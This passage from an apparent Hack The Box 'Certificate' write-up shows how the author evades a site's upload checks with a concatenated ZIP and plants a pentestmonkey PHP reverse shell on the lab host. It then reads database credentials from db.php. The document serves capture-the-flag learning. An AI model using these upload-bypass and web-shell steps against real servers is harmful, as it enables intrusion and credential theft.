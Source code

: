 Now let's prepare out PHP payload from `https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php`

```shell
┌───(root㉿kali)-[~/HTB/Certificate]
└─$ ls
malicious  test.pdf

┌───(root㉿kali)-[~/HTB/Certificate]
└─$ zip head.zip test.pdf

┌───(root㉿kali)-[~/HTB/Certificate]
└─$ zip -r tail.zip malicious/

┌───(root㉿kali)-[~/HTB/Certificate]
└─$ cat head.zip tail.zip > main.zip

# upload main.zip to http://certificate.htb/upload.php?s_id=5
┌───(root㉿kali)-[~/HTB/Certificate]
└─$ curl -F "file=@main.zip" "http://certificate.htb/upload.php?s_id=5" -b "PHPSESSID=[REDACTED]"
# trigger -> http://certificate.htb/static/uploads/.../malicious/shell.php
```
Concatenated ZIP evaded server checks and allowed placing a PHP web-shell in the uploads directory, giving an interactive foothold as the web application user.

![3](/assets/img/favicons/certificate-htb/listener1.png)


### Enumeration (post-access)
Exploring the system with our reverse shell, we found database credentials in `db.php` and then we can dump the database to further research.

```shell
C:\xampp\htdocs\certificate.htb> type db.php
```
```
<?php
// Database connection using PDO
try {
   $dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
   $db_user = 'certificate_webapp_user'; // Change to your DB username
   $db_passwd = '[REDACTED]'; // Change to your DB password
   $options = [
      PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
      PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
   ];
   $pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
```